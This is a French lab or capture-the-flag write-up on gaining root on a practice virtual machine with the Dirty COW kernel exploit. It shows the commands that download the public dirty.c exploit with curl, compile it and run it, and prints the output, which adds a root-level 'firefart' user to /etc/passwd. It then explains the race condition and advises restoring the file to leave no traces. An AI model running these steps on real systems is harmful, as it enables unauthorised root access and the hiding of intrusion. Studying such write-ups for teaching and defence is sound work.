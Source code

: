 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

    $> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload   Upload  Total   Spent    Left  Speed
    100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
    $> gcc -pthread dirty.c -o dirty -lcrypt
    $> ./dirty "petdefeu"
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: petdefeu
    Complete line:
    firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

    mmap: b7fda000
    madvise 0

    ptrace 0
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix durant 9 ans. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` est utilisé, cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé.


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, utile pour le processus parent
- `kill` processus enfant
- `pthread_join` suspends le processus enfant

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

    $> su firefart
    Password:
    
On peut verifier que nous avons tous les droits en tapant la commande `id`:

    $> id
    uid=0(firefart) gid=0(root) groups=0(root)

__Bravo ! Vous êtes root !__
